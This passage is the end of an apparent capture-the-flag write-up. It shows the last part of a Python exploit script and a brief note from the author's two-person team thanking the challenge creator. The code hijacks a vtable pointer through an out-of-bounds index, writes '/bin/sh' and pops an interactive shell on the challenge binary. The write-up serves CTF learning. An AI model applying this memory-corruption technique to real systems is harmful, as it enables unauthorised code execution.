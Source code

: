 ```python
    print(f"system: {hex(system)}")

    p.interactive()

    select(p, 3, 0, pack("<Q", dynamic_vtable_ptr) + pack("<Q", libstd_base+0x277C48) + pack("<Q", 0x10000) + pack("<Q", 0x10000))
    select(p, 3, -51, pack("<Q", system))

    select(p, 3, 0, pack("<Q", dynamic_vtable_ptr) + pack("<Q", first_note_heap_ptr) + pack("<Q", 0x10000) + pack("<Q", 0x10000))
    select(p, 3, -51, b"/bin/sh")

    select(p, 5, -51)


    p.interactive()

        


if __name__ == "__main__":
    main()
```
</details> 

#### About the writer
I was part of the team 0x1A, that consisted of me and my friend. We really enjoyed the CTF and especially this challange which was pretty hard. Big Thanks to @White the creator of the challange!